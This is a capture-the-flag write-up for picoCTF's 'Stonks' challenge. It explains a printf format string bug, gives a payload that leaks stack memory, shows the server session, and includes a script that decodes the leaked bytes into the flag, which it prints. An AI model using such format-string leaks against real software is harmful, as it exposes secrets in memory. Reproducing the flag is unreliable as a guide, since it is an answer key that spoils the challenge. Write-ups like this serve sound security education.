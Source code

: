 # STONKS

## OVERVIEW & IDEA

- The challenge gives us just source file. Checking the source, I find this function have format string vulnerability.

```c
int buy_stonks(Portfolio *p) {
	char api_buf[FLAG_BUFFER];


    - read flag and put it in api_buf

    - do some stuffs

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	view_portfolio(p);

	return 0;
}
```

- Above is simplified of `buy_stonks`. But, we can leak the `api_buf[FLAG_BUFFER]` with `printf(user_buf);` with `user_buf` is input string of user.

## DETAILS & EXPLOIT

- I don't know the program is 32-bit or 64-bit, but with tried some test, it is 32-bit. So, I create a simple script for leaking data on the stack. 

```
>>> for i in range(1, 35):
...     print('%' + str(i) + '$08x', end = '', sep = '')
...
%1$08x%2$08x%3$08x%4$08x%5$08x%6$08x%7$08x%8$08x%9$08x%10$08x%11$08x%12$08x%13$08x%14$08x%15$08x%16$08x%17$08x%18$08x%19$08x%20$08x%21$08x%22$08x%23$08x%24$08x%25$08x%26$>>>
```

- Input it to the server. I got the data.

```
λ ~/ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%1$08x%2$08x%3$08x%4$08x%5$08x%6$08x%7$08x%8$08x%9$08x%10$08x%11$08x%12$08x%13$08x%14$08x%15$08x%16$08x%17$08x%18$08x%19$08x%20$08x%21$08x%22$08x%23$08x%24$08x%25$08x%26$08x%27$08x%28$08x%29$08x%30$08x%31$08x%32$08x%33$08x%34$08x
Buying stonks with token:
095624b00804b000080489c3f7f04d80ffffffff0000000109560160f7f12110f7f04dc700000000095611800000000109562490095624b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431fffc007df7f3faf8f7f124407ddf64000000000100000000f7da1ce9f7f130c0f7f045c0f7f04000fffc4f68
Portfolio as of Wed Jan 25 17:08:50 UTC 2023
.
.
.
```

- I use online hex to text to decode this data.

![img](/picoCTF/stonks/assets/leak.png)

- It's in little endian, so, I use this script to convert it to correct flag.

```
ascii 6f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431fffc007d
char  ocip{FTC0l_I4_t5m_ll0m_y_y3nc42a6a41ÿü}
```

```
>>> s = "6f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431fffc007d"
>>> for i in range(0, len(s), 8):
...     print( chr(int(s[i+6:i+8], 16)), chr(int(s[i+4:i+6], 16)), chr(int(s[i+2:i+4], 16)), chr(int(s[i:i+2], 16)), sep = '', end = '')
...
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}üÿ>>>
```
